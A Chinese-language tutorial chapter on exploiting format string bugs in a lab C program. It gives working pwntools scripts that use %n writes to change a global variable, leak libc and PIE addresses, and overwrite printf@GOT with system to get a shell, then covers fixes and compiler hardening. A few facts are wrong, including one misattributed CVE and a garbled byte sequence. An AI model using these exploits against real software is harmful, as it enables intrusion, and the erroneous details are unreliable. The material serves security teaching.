

## 案例四：格式化字符串漏洞利用

格式化字符串漏洞（Format String Vulnerability）是一类经典的内存安全问题，它利用 `printf` 系列函数对格式化参数的处理机制，实现任意地址读取和任意地址写入。本案例将从漏洞原理出发，逐步构建完整的利用链，最终通过格式化字符串漏洞修改全局变量并获取 Shell。

### 4.1 漏洞原理回顾

#### 4.1.1 printf 的调用约定与栈布局

`printf` 是一个变参函数，其原型为：

```c
int printf(const char *format, ...);
```

在 x86-64 调用约定中，前 6 个参数通过寄存器传递（rdi, rsi, rdx, rcx, r8, r9），超出部分压栈。格式化字符串本身通过 rdi 传递，而 `%s`、`%x`、`%p` 等格式说明符会依次从后续寄存器和栈上取值。

当程序员写出如下代码时：

```c
char buf[100];
fgets(buf, sizeof(buf), stdin);
printf(buf);  // 错误：用户输入直接作为格式化字符串
```

攻击者可以输入 `%p.%p.%p.%p`，printf 会依次从栈上读取数据并打印，实现栈内容泄露。更危险的是，`%n` 格式说明符会将已输出的字符数写入指定地址，实现任意写入。

#### 4.1.2 格式说明符速查表

| 说明符 | 作用 | 安全风险 |
|--------|------|----------|
| `%d` | 打印有符号整数 | 信息泄露 |
| `%u` | 打印无符号整数 | 信息泄露 |
| `%x` | 打印十六进制（32位） | 信息泄露 |
| `%lx` | 打印十六进制（64位） | 信息泄露 |
| `%p` | 打印指针地址 | 信息泄露 |
| `%s` | 打印字符串（按地址解引用） | 任意读取 |
| `%n` | 写入已输出字符数（4字节） | 任意写入 |
| `%hn` | 写入已输出字符数（2字节） | 精确写入 |
| `%hhn` | 写入已输出字符数（1字节） | 精确写入 |
| `%N$` | 直接引用第N个参数 | 定位目标 |

`%n` 族是格式化字符串漏洞的核心利用原语。`printf("AAAA%n", addr)` 会将数字 4 写入 `addr` 指向的内存。配合 `%N$` 直接参数访问，可以精确定位写入目标。

#### 4.1.3 为什么格式化字符串漏洞仍然重要

格式化字符串漏洞看似古老，但在现代 C/C++ 项目中仍然频繁出现：

1. **日志系统**：`syslog(priority, user_input)` 或自定义日志函数将用户输入直接传递给 `snprintf`
2. **嵌入式设备**：路由器固件、IoT 设备中大量使用 `sprintf` 拼接字符串
3. **CTF 竞赛**：格式化字符串是必考题型，灵活多变
4. **CVE 实例**：CVE-2000-0573（wu-ftpd）、CVE-2012-0809（sudo）、CVE-2019-14287 等均涉及格式化字符串问题

### 4.2 目标程序分析

#### 4.2.1 源代码

```c
// fmt_vuln.c
#include <stdio.h>

int secret = 0;

void vuln() {
    char buf[100];
    printf("输入: ");
    fgets(buf, sizeof(buf), stdin);
    printf(buf);  // 格式化字符串漏洞：用户输入直接作为格式化参数
}

int main() {
    setvbuf(stdout, NULL, _IONBF, 0);
    printf("secret地址: %p\n", &secret);
    vuln();
    if (secret == 0x41414141) {
        printf("成功！secret = 0x%x\n", secret);
        system("/bin/sh");
    }
    return 0;
}
```

#### 4.2.2 程序逻辑分析

程序的攻击面非常清晰：

1. `secret` 是一个全局变量，初始值为 0
2. 程序主动打印 `secret` 的地址（降低了利用难度，真实场景中需要自行泄露地址）
3. `vuln()` 函数中存在格式化字符串漏洞——`printf(buf)` 直接将用户输入作为格式化字符串
4. 当 `secret == 0x41414141` 时，程序调用 `system("/bin/sh")` 提供 Shell

攻击目标：通过格式化字符串漏洞，将 `secret` 的值修改为 `0x41414141`。

#### 4.2.3 编译与保护状态

```bash
gcc -g -no-pie -fno-stack-protector -o fmt_vuln fmt_vuln.c
```

编译选项说明：

| 选项 | 含义 | 对本案例的影响 |
|------|------|----------------|
| `-g` | 包含调试信息 | 方便 GDB 调试分析 |
| `-no-pie` | 关闭地址随机化 | 全局变量地址固定，简化利用 |
| `-fno-stack-protector` | 关闭栈保护 | 减少干扰因素 |

注意：本案例不涉及 NX 保护的绕过，因为利用方式是写内存而非执行栈上的代码。格式化字符串漏洞本身就能完成任意写入，不需要执行 Shellcode。

### 4.3 利用思路总览

整个利用链分为三个阶段：



### 4.4 阶段一：确定栈偏移

#### 4.4.1 原理

当 `printf(buf)` 执行时，`buf` 的内容位于栈上。`%p` 会依次读取栈上的值，我们需要找到 `buf` 起始位置对应第几个格式化参数。

#### 4.4.2 手动探测

发送特征序列 `AAAA%p.%p.%p.%p.%p.%p.%p.%p.%p.%p`，观察输出：

```text
输入: AAAA0x7ffc12345678.0x7f1234567890.0x1.0x4141414141414141.(nil)...
```

在输出中寻找 `0x4141414141414141`（即 AAAA 的十六进制表示），它出现在第几个 `%p` 的输出中，就说明偏移是多少。

#### 4.4.3 自动化探测脚本

```python
from pwn import *

p = process('./fmt_vuln')

# 发送特征序列
p.recvuntil(b'输入: ')
p.sendline(b'AAAA%p.%p.%p.%p.%p.%p.%p.%p.%p.%p')
leak = p.recvline().decode()
print(f"泄露输出: {leak}")

# 在输出中搜索 41414141 确定偏移
# 例如输出为: AAAA0x...0x...0x...0x4141414141414141...
# 则偏移为第6个参数（从1开始计数）
```

#### 4.4.4 使用 GDB 精确验证

```bash
gdb ./fmt_vuln
(gdb) b printf
(gdb) r
# 输入 AAAA%6$p
(gdb) x/20gx $rsp
(gdb) info registers rsi rdx rcx r8 r9
```

通过 GDB 查看 `printf` 被调用时的寄存器和栈内容，可以精确确认偏移值。在 x86-64 上，前 6 个参数在 rdi（格式字符串）、rsi、rdx、rcx、r8、r9 中，第 7 个参数起在栈上。

### 4.5 阶段二：构造写入 Payload

#### 4.5.1 手动构造——理解 %n 的工作方式

假设偏移为 6，目标地址为 `secret_addr`，目标值为 `0x41414141`（十进制 1094795585）。

最基本的 `%n` 写入方式：

```python
# 手动构造（仅用于理解原理）
import struct

target = 0x404030          # secret 的地址（需要实际确认）
target_bytes = struct.pack('<Q', target)  # 小端序 8 字节

# 需要输出 1094795585 个字节，这不现实
# 所以实际使用 %hn 或 %hhn 分段写入
```

直接使用 `%n` 写入 `0x41414141` 需要输出约 1GB 的字符，完全不可行。实际利用中采用**分段写入**策略。

#### 4.5.2 分段写入——%hn 与 %hhn

| 方法 | 每次写入 | 需要次数 | 输出量 |
|------|----------|----------|--------|
| `%n` | 4 字节 | 1 次 | 约 1GB（不现实） |
| `%hn` | 2 字节 | 2 次 | 最大 65535 × 2 |
| `%hhn` | 1 字节 | 4 次 | 最大 255 × 4 |

以 `%hhn` 为例，将 `0x41414141` 拆分为 4 个字节：`0x41, 0x41, 0x41, 0x41`。

每次写入 1 个字节，控制 `printf` 已输出的字符数恰好等于目标字节值。通过精心构造格式说明符中的宽度字段（如 `%128c`），可以精确控制输出字符数。

#### 4.5.3 使用 pwntools 的 fmtstr_payload

`pwntools` 提供了 `fmtstr_payload` 函数，自动生成格式化字符串写入 Payload：

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'

p = process('./fmt_vuln')

# 接收 secret 地址
line = p.recvline().decode()
secret_addr = int(line.split(': ')[1], 16)
print(f"[*] secret 地址: {hex(secret_addr)}")

# fmtstr_payload(offset, writes, numbwritten=0, write_size='byte')
# offset: 输入在栈上的偏移（第几个参数）
# writes: {目标地址: 目标值} 字典
# write_size: 'byte'(%hhn), 'short'(%hn), 'int'(%n)
payload = fmtstr_payload(6, {secret_addr: 0x41414141}, write_size='byte')
print(f"[*] Payload 长度: {len(payload)}")
print(f"[*] Payload: {payload}")

p.recvuntil(b'输入: ')
p.sendline(payload)

p.interactive()
```

#### 4.5.4 fmtstr_payload 生成的 Payload 解析

`fmtstr_payload(6, {0x404030: 0x41414141}, write_size='byte')` 生成的 Payload 结构大致如下：

```text
[地址1][地址2][地址3][地址4]%[pad1]c%[off1]$hhn%[pad2]c%[off2]$hhn%[pad3]c%[off3]$hhn%[pad4]c%[off4]$hhn
```

- **地址区**：4 个 8 字节的目标地址（小端序），分别对应 4 个字节的写入目标
- **格式说明符区**：4 个 `%Xc%N$hhn`，控制每次写入的值

以 `0x41414141` 为例，每个字节都是 `0x41 = 65`，所以格式化说明符会设置宽度为 65，配合 `%hhn` 写入一个字节。

#### 4.5.5 分段写入的排序优化

`fmtstr_payload` 会自动对写入操作进行排序——先写小值，再写大值。这是因为 `%n` 记录的是累计输出字符数，必须单调递增。如果目标字节值不是单调递增的，需要通过填充来增加输出字符数。

例如目标值 `0x00421234`，字节序列为 `0x34, 0x12, 0x42, 0x00`：
- 第一次写入 `0x34`（52 个字符）
- 第二次写入 `0x12`（18 个字符，但累计需 70，已有 52，需额外输出 18）
- 第三次写入 `0x42`（66 个字符，累计需 136，已有 70，需额外输出 66）
- 第四次写入 `0x00`（0 个字符，累计需 256，已有 136，需额外输出 120）

`fmtstr_payload` 自动处理这些细节，包括处理回绕（wrapping）问题。

### 4.6 阶段三：完整利用脚本

#### 4.6.1 最终 Exploit

```python
#!/usr/bin/env python3
"""
fmt_vuln exploit - 通过格式化字符串漏洞修改全局变量
"""
from pwn import *

# ============ 配置 ============
context.arch = 'amd64'
context.log_level = 'info'  # 调试时改为 'debug'
context.terminal = ['tmux', 'splitw', '-h']

BINARY = './fmt_vuln'
OFFSET = 6  # 格式化字符串在栈上的偏移

# ============ 启动目标 ============
p = process(BINARY)

# ============ 阶段1: 获取 secret 地址 ============
line = p.recvline().decode().strip()
secret_addr = int(line.split(': ')[1], 16)
log.success(f"secret 地址: {hex(secret_addr)}")

# ============ 阶段2: 确认偏移（可选，首次运行时执行） ============
if False:  # 设为 True 以运行偏移探测
    p.recvuntil(b'输入: ')
    p.sendline(b'AAAA%p.%p.%p.%p.%p.%p.%p.%p.%p.%p')
    leak = p.recvline().decode()
    log.info(f"泄露: {leak}")
    # 在输出中寻找 41414141 确定偏移
    p.recvuntil(b'输入: ')

# ============ 阶段3: 构造并发送 Payload ============
p.recvuntil(b'输入: ')

# 使用 fmtstr_payload 自动生成写入 payload
# write_size='byte' 使用 %hhn，每次写 1 字节，更可靠
payload = fmtstr_payload(OFFSET, {secret_addr: 0x41414141}, write_size='byte')
log.info(f"Payload 长度: {len(payload)} 字节")

p.sendline(payload)

# ============ 阶段4: 获取 Shell ============
log.success("Payload 已发送，等待 Shell...")
p.interactive()
```

#### 4.6.2 运行结果

```bash
$ python3 exploit.py
[+] secret 地址: 0x404030
[*] Payload 长度: 72 字节
[+] Payload 已发送，等待 Shell...
成功！secret = 0x41414141
$ id
uid=1000(user) gid=1000(user) groups=1000(user)
```

### 4.7 实战技巧：不借助程序输出定位 secret 地址

上面的案例中，程序主动打印了 `secret` 的地址。在真实漏洞场景中，攻击者通常需要自行获取目标地址。

#### 4.7.1 方法一：通过 %p 泄露栈上的返回地址

```python
p.sendline(b'%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p')
leak = p.recvline().decode()
addrs = leak.split('.')
for i, addr in enumerate(addrs):
    print(f"参数 {i}: {addr}")
    # 通过地址的高位字节判断所属内存区域
    # 0x55xxxx... - 程序基址附近（PIE 开启时）
    # 0x7ffxxxxx - 栈地址
    # 0x7f1xxxxx - libc 地址
```

#### 4.7.2 方法二：利用 %s 读取任意地址

如果 GOT 表可读，可以通过 `%s` 读取函数的真实地址，进而计算 libc 基址：

```python
from pwn import *

elf = ELF('./fmt_vuln')

# 将 printf@GOT 的地址放在栈上，然后用 %s 读取
printf_got = elf.got['printf']
# 构造 payload：地址 + %N$s
payload = p64(printf_got) + f'%{OFFSET}s'.encode()
# ... 这需要地址能被放到栈上合适的偏移位置
```

#### 4.7.3 方法三：GDB 辅助确定地址

```bash
gdb ./fmt_vuln
(gdb) p &secret
$1 = (int *) 0x404030
(gdb) info proc mappings
# 查看程序的内存映射，确认全局变量所在的段
(gdb) maintenance info sections
# 查看所有段的地址范围
```

### 4.8 变体挑战：不同场景下的格式化字符串利用

#### 4.8.1 变体一：短缓冲区（输入长度受限）

当缓冲区很小时，Payload 空间不足。解决方案：

1. **减少写入次数**：使用 `%hn`（2 字节写入）而非多次 `%hhn`
2. **使用栈上的已有地址**：不自己放地址，而是利用栈上已存在的指针
3. **分多次利用**：第一次泄露地址，第二次写入

```python
# 短缓冲区优化：使用 %hn 减少 payload 长度
payload = fmtstr_payload(6, {secret_addr: 0x41414141}, write_size='short')
# short 模式使用 %hn，2 次写入代替 4 次，payload 更短
```

#### 4.8.2 变体二：格式化字符串不在栈上

当输入通过寄存器传递而非栈上时，偏移会不同。在 x86-64 上：

- rsi = 参数 1（偏移 1）
- rdx = 参数 2（偏移 2）
- rcx = 参数 3（偏移 3）
- r8 = 参数 4（偏移 4）
- r9 = 参数 5（偏移 5）
- 栈上第一个 = 参数 6（偏移 6）

如果格式化字符串本身在 rdi 中（作为第一个参数），则栈上的数据从偏移 6 开始。但如果函数被多次包装，偏移可能不同。

#### 4.8.3 变体三：绕过 ASLR + PIE 的格式化字符串攻击

当 ASLR 和 PIE 都开启时，需要分阶段利用：

```python
# 阶段1：泄露 libc 地址
# 通过 %p 打印栈上的 libc 返回地址
p.sendline(b'%7$p')  # 偏移 7 是某个 libc 地址
leaked = int(p.recvline().strip(), 16)
libc_base = leaked - libc_offset  # 需要预先知道偏移

# 阶段2：泄露程序基址
p.sendline(b'%3$p')  # 偏移 3 是某个程序地址
pie_leak = int(p.recvline().strip(), 16)
pie_base = pie_leak - pie_offset

# 阶段3：构造写入 payload
system_addr = libc_base + libc.symbols['system']
# ... 使用 fmtstr_payload 写入 GOT
```

### 4.9 格式化字符串 + GOT 覆写：组合利用

格式化字符串漏洞最强大的利用方式之一是结合 GOT 覆写，将某个已知函数的 GOT 条目替换为 `system` 的地址：

```python
from pwn import *

elf = ELF('./fmt_vuln')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

# 目标：将 printf@GOT 覆写为 system 地址
# 之后调用 printf("/bin/sh") 实际执行 system("/bin/sh")

# 阶段1：泄露 libc
# 利用格式化字符串泄露某个 GOT 表项的真实地址
p.recvuntil(b'输入: ')
p.sendline(p64(elf.got['puts']) + b'%6$s')
leak_data = p.recv()
puts_addr = u64(leak_data[8:16].ljust(8, b'\x00'))
libc_base = puts_addr - libc.symbols['puts']

# 阶段2：计算 system 地址
system_addr = libc_base + libc.symbols['system']

# 阶段3：覆写 printf@GOT
p.recvuntil(b'输入: ')
payload = fmtstr_payload(6, {elf.got['printf']: system_addr}, write_size='byte')
p.sendline(payload)

# 阶段4：触发 system("/bin/sh")
p.recvuntil(b'输入: ')
p.sendline(b'/bin/sh')

p.interactive()
```

#### 4.9.1 GOT 覆写的条件

GOT 覆写并非总是可行，需要满足以下条件：

| 条件 | 说明 |
|------|------|
| Partial RELRO 或无 RELRO | Full RELRO 下 GOT 为只读 |
| 目标函数在 GOT 中有条目 | 必须是延迟绑定的外部函数 |
| 能多次触发漏洞 | 至少需要 2 次（泄露 + 写入） |

检查保护状态：

```bash
checksec --file=./fmt_vuln
# RELRO:        Partial RELRO   ← 允许 GOT 写入
# Stack:        No canary found
# NX:           NX enabled
# PIE:          No PIE
```

### 4.10 防御措施与安全编码

#### 4.10.1 根本修复

```c
// 危险代码
printf(buf);

// 修复方式1：使用 %s 格式说明符
printf("%s", buf);

// 修复方式2：使用 fputs/fwrite
fputs(buf, stdout);
```

#### 4.10.2 编译器防护

```bash
# GCC/Clang 格式化字符串检查
gcc -Wformat -Wformat-security -o fmt_vuln fmt_vuln.c
# 编译器会对 printf(buf) 这类调用发出警告

# 更严格：将警告升级为错误
gcc -Wformat -Wformat-security -Werror=format-security -o fmt_vuln fmt_vuln.c
```

#### 4.10.3 运行时防护

```bash
# FORTIFY_SOURCE 提供运行时格式化字符串检查
gcc -D_FORTIFY_SOURCE=2 -O2 -o fmt_vuln fmt_vuln.c
# 编译时如果检测到格式化字符串参数不是常量字符串，会报错
```

#### 4.10.4 操作系统级缓解

- **Full RELRO**：`-Wl,-z,relro,-z,now`，使 GOT 只读，防止 GOT 覆写
- **ASLR + PIE**：增加地址随机化程度，提高利用难度
- **Stack Canary**：虽然不直接防护格式化字符串，但防止栈溢出组合利用

### 4.11 常见错误与排错

#### 4.11.1 偏移确定错误

**症状**：Payload 发送后程序崩溃，或写入的值不正确。

**排查方法**：

```python
# 逐一测试偏移
for i in range(1, 20):
    p = process('./fmt_vuln')
    p.recvline()  # 消耗 secret 地址行
    p.recvuntil(b'输入: ')
    p.sendline(f'AAAA%{i}$p'.encode())
    result = p.recvline().decode()
    if '41414141' in result:
        print(f"[+] 偏移为 {i}")
        break
    p.close()
```

#### 4.11.2 写入值不匹配

**症状**：`secret` 被修改但不是 `0x41414141`。

**原因**：`%hhn` 写入的是模 256 的值，如果计算错误可能导致写入的字节不对。

**解决**：检查 `fmtstr_payload` 生成的 Payload，或使用 `write_size='short'` 尝试。

#### 4.11.3 Payload 中包含坏字符

**症状**：`fgets` 在遇到 `\x00` 时不会截断（`gets` 会），但 `\x0a`（换行符）会被 `fgets` 截断。

**排查**：

```python
# 检查 payload 中的坏字符
payload = fmtstr_payload(6, {secret_addr: 0x41414141})
if b'\x0a' in payload:
    print("[!] Payload 包含换行符，可能被 fgets 截断")
    # 解决方案：调整写入策略，避免地址中出现 0x0a
```

#### 4.11.4 程序在 Payload 发送前崩溃

**症状**：程序在接收输入时就崩溃了。

**排查**：

```bash
# 使用 GDB 跟踪
gdb ./fmt_vuln
(gdb) set follow-fork-mode child
(gdb) catch signal SIGSEGV
(gdb) r
# 输入 payload
(gdb) bt  # 查看崩溃时的调用栈
```

### 4.12 扩展练习

#### 练习1：修改为任意值

将目标从 `0x41414141` 改为 `0xdeadbeef`，修改 Exploit 并验证。

```python
# 提示：0xdeadbeef 的字节序列为 ef, be, ad, dead
# 包含 0xad 和 0xef，注意检查是否与坏字符冲突
payload = fmtstr_payload(6, {secret_addr: 0xdeadbeef}, write_size='byte')
```

#### 练习2：不使用 fmtstr_payload

手动构造 Payload，理解 `%hhn` 分段写入的完整流程：

```python
# 步骤：
# 1. 确定要写入的 4 个字节值
# 2. 对字节值排序（从小到大）
# 3. 计算每个 %Xc 的宽度参数
# 4. 计算每个 %N$hhn 的偏移参数
# 5. 拼接 地址区 + 格式化区
```

#### 练习3：格式化字符串 + 栈溢出组合

设计一个同时存在栈溢出和格式化字符串漏洞的程序，利用格式化字符串泄露 Canary 值，然后通过栈溢出执行 ROP 链。

#### 练习4：远程格式化字符串利用

将目标程序改为 TCP 服务端，编写远程 Exploit：

```python
from pwn import *

# 远程连接
p = remote('challenge.example.com', 1337)

# 利用逻辑与本地相同
# 但需要注意：
# 1. 地址可能不同（ASLR）
# 2. libc 版本需要确认
# 3. 网络延迟可能影响交互
```

### 4.13 本案例关键知识点总结

| 知识点 | 要点 |
|--------|------|
| 漏洞根因 | `printf(buf)` 将用户输入作为格式化字符串 |
| 任意读取 | `%p` 泄露栈内容，`%s` 读取任意地址 |
| 任意写入 | `%n`/`%hn`/`%hhn` 向任意地址写入数据 |
| 分段写入 | `%hhn` 每次写 1 字节，避免输出量过大 |
| 偏移确定 | 发送特征序列，在输出中定位偏移 |
| 自动化工具 | `fmtstr_payload(offset, writes)` |
| 防御方法 | `printf("%s", buf)` + 编译器检查 + Full RELRO |

***
